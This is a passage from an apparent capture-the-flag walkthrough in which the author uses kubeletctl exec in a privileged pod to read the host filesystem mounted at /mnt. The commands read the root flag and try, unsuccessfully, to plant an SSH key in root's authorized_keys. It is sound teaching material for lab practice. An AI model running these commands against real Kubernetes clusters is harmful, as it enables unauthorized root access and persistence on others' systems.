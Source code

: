 But this time the host file system is mounted at `/mnt`:

```

oxdf@hacky$ kubeletctl exec "ls /mnt/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var

```

I can read `root.txt`:

```

oxdf@hacky$ kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
98c251ea************************

```

#### Shell Fails

`kubeletctl` doesn’t seem to process command quite like I’m expecting. I tried creating `/mnt/root/.ssh` and then writing an`authorized_keys` file:

```

oxdf@hacky$ kubeletctl exec "mkdir /mnt/root/.ssh/" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
oxdf@hacky$ kubeletctl exec "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' >> /mnt/root/.ssh/authorized_keys

```

Looking closely, it seems to echo everything, including the `>> /mnt/root/.ssh/authorized_keys` bit.

I played with `cat`  a bit as well and got the same results:

```

oxdf@hacky$ kubeletctl exec "cat /etc/issue" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
Debian GNU/Linux 9 \n \l

oxdf@hacky$ kubeletctl exec "cat /etc/issue > /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
Debian GNU/Linux 9 \n \l

cat: '>': No such file or directory
cat: /tmp/a: No such file or directory
command terminated with exit code 1
oxdf@hacky$ kubeletctl exec "cat /etc/issue | tee /tmp/a" -s 10.10.11.133 -p 0xdf-pod -c 0xdf-pod
Debian GNU/Linux 9 \n \l

cat: '|': No such file or directory
cat: tee: No such file or directory
cat: /tmp/a: No such file or directory
command terminated with exit code 1

```
